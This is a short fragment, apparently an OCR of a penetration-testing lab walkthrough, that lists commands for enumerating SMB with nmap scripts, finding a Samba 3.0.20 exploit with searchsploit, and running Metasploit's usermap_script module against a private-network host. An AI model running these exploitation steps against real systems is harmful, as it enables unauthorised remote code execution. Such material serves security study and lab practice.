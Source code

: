 ls -al /usr/share/nmap/scripts/ | grep -e "smb"


searchsploit samba | grep 3.0. 20


search samba username map script

Exploiting using msfconsole
# use exploit/multi/samba/usermap_script
# show options
# set RHOST 192.168.1.6
# exploit







